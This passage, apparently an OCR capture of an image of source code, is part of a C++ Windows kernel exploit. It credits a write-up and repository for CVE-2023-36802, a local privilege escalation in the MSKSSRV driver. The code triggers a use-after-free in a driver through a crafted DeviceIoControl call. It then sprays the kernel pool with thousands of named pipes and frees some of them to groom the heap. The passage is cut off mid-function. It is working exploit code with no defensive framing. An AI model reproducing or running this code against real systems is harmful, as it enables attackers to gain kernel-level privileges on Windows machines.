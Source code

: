 ```cpp
    OUT PVOID               OutputBuffer OPTIONAL,
    IN ULONG                OutputBufferLength);


VOID AllocateKernelObject(HANDLE hDriver) {
    UINT8 buffer[512] = { 0 };
    memset(buffer, 0x70, 512); // <- so the driver doesnt remove it from the linkedlist creating a UAF
    DWORD* bufferLength = (DWORD*)((buffer)+8);
    DWORD targetLength = 0x78; // 0x68+0x38 = 160 decimal were getting B0
    *bufferLength = targetLength;
    BOOL result = DeviceIoControl(hDriver, 0x80002000, &buffer, 512, NULL, 0, NULL, NULL);
    if (result) {
    }
    else {
        printf("[-] Failed To Allocate Kernel Object \n");
        exit(0);
    }
}

// shout to https://medium.com/reverence-cyber/cve-2023-36802-mssksrv-sys-local-privilege-escalation-reverence-cyber-d54316eaf118
// https://github.com/x0rb3l/CVE-2023-36802-MSKSSRV-LPE/tree/main
// for the unbuffered pipe example below
#define FSCTL_CODE 0x119ff8
#define SPRAY_SIZE 0x10000
#define PIPESPRAY_SIZE 0xC0
#define PAYLOAD_SIZE 0xC0

HANDLE phPipeHandleArray[sizeof(HANDLE) * SPRAY_SIZE];
HANDLE phFileArray[sizeof(HANDLE) * SPRAY_SIZE];


// Used to free the kernel objects
void CreateHoles() {
    for (int i = 0; i < SPRAY_SIZE; i += 4)
    {
        CloseHandle(phPipeHandleArray[i]);
        CloseHandle(phFileArray[i]);
    }
}

VOID UnbufferedHeapSpray(void* data,int size) {
    IO_STATUS_BLOCK isb;
    OVERLAPPED ol;
    NtFsControlFile _NtfsControlFile  = (NtFsControlFile)GetProcAddress(LoadLibrary(L"ntdll.dll"), "NtFsControlFile");
    if (_NtfsControlFile == NULL) {
        printf("[-] Failed to get function\n");
        return;
    }

    for (int i = 0; i < SPRAY_SIZE; i++) {
        phPipeHandleArray[i] = CreateNamedPipe(L"\\\\.\\pipe\\exploit", PIPE_ACCESS_OUTBOUND | FILE_FLAG_OVERLAPPED, PIPE_TYPE_BYTE | PIPE_WAIT, PIPE_UNLIMITED_INSTANCES, size, size, 0, 0);

        if (phPipeHandleArray[i] == INVALID_HANDLE_VALUE) {
            printf("[!] Error while creating the named pipe: %d\n", GetLastError());
            exit(1);
        }

        memset(&ol, 0, sizeof(ol));
        ol.hEvent = CreateEvent(NULL, TRUE, FALSE, NULL);
```